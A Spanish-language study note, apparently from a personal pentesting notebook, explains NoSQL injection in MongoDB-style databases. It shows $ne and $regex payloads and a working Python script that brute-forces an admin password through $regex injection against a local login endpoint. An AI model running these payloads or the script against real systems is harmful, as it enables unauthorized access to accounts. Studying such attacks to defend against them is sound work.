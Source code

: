 Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

$ne not equal
![[Pasted image 20240613233018.png]]
Tambié puedo usar regex
![[Pasted image 20240613233557.png]]
Ysi los regex los pongo entre corchetes:
```
'password':"admin",{
"$regex":".{20}"
}
```
Tenemos el siguiente python3 para aplicar fuerza bruta:
```python
#!/usr/bin/python3

from pwn import *
import requests, time, sys, signal, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo..")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    # P es el campo
    p2 = log.progress("Password")

    for position in range(1, 24):
        for character in characters:
            post_data = '{"username":"admin", "password":{"$regex":"^%s%s"}}' % (password, character)

            p1.status(post_data)

            headers = {'Content-Type': 'application/json'}
            # Guardar los código de estado
            r = requests.post(login_url, headers=headers, data=post_data)
            # verbose
            if "Logged in as user" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeNoSQLI()

```
Cambia el content type por ^/json, cambia el request mode
![[Pasted image 20240614005729.png]]